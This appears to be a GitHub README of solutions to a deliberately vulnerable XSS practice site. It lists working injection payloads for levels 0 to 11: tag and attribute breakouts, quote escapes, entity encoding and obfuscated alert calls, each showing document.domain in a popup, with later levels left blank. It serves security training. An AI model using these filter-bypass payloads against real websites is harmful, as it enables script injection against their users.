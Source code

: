 # Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  <img src="sudo.co.il.PNG">
</p>

---
**Our mission is to popup window with document.domain (sudo.co.il) *without any kind of user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](document.domain);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](document.domain);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](document.domain);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](document.domain);//'
```
or,
```javascript
x';x=top["al"%2B"ert"](document.domain);//
```
or,
```javascript
x';x=this["al"%2B"ert"](document.domain);//
```

- Level 11
```javascript
#<script>alert(document.domain)</script>
```
<!--
- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
